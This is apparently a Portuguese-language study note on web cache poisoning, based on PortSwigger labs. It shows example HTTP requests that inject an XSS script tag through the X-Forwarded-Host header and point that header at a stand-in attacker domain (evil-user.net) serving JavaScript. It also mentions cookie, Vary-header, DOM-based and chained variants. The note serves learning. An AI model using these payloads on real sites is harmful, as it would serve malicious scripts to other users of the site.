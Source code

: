 #web #vuln

O web cache serve para diminuir a carga de trabalho de um servidor, reduzindo o número de requisições duplicadas ao salvar uma cópia de uma resposta no cache. Quando o cache recebe uma requisição HTTP, ele verifica se existe uma resposta que serve para essa requisição através da cache key, formada por componentes do header. Componentes do header que não são inclusos na key são chamados de **unkeyed**.

O web cache poisoning possui três passos:
1. Identificar unkeyed inputs
	1. A extensão **Param Miner** do Burp (BApp Store) automatiza isso mas é importante adicionar a opção para criar um *cache buster* a cada requisição para não prejudicar outros usuários ou o site.
2. Descobrir como obter uma resposta do backend com um payload crítico
3. Garantir que essa resposta seja armazenada em cache

**OBS:** habilitar o *cache buster* do ParamMiner evita da resposta ficar em cache, então após os testes desabilite o ParamMiner para conseguir o `X-Cache: Hit`.
## Explorando falhas

### [[XSS]]

Esse é a forma mais comum, quando um unkeyed input é refletida na resposta sem sanitização adequada. Por exemplo:

```
GET /en?region=uk HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: innocent-website.co.uk 

HTTP/1.1 200 OK 
Cache-Control: public 
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

Neste caso o valor do `X-Forwarded-Host` é usado na url da resposta para gerar uma imagem. Colocando um script em seu lugar:

```
GET /en?region=uk HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: a."><script>alert(1)</script>" 

HTTP/1.1 200 OK 
Cache-Control: public 
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

Neste exemplo, todos usuários que entrar em region=uk vai cair nesse script.

### Importações de recursos inseguros

Semelhante a situação anterior, ao descobrir que `X-Forwarded-Host`  é uma **unkeyed input** um possível teste seria colocar o seu domínio com um js que ao ser importado pela página ele irá executar.

```
GET / HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: evil-user.net

HTTP/1.1 200 OK 
<script src="https://evil-user.net/static/analytics.js"></script>
```

Lab: [[Web cache poisoning - with an unkeyed header]]
### Cookie handling

Há situações que valores que estão no cookie não são usados no cache key, sendo alvo de web cache poisoning

Lab: [[Web cache poisoning - unkeyed cookie]]

### Header Vary

O cabeçalho `Vary` é útil para identificar o que é tratado como **cache key**. É comumente usado para especificar que o `User-Agent` é chaveado para que se a versão mobile de um site for armazenada em cache, isso não será enviado aos usuários da versão web. Ou seja, sabendo disso, um hacker pode adaptar o ataque para que apenas os usuários com esse agente seja afetado.
### [[DOM-Based]] 

Muitos websites usam JS acessar dados de maneira insegura e lançam no HTML.

Lab: [[Web cache poisoning - DOM-based]]

### Encadeando vulnerabilidades

As vezes o invasor só é capaz de provocar uma resposta maliciosa criando uma requisição com vários headers e o mesmo acontece com diferentes tipos de ataque.

Lab: [[Web cache poisoning - Combining vulnerabilities]]

## Referências
https://portswigger.net/web-security/web-cache-poisoning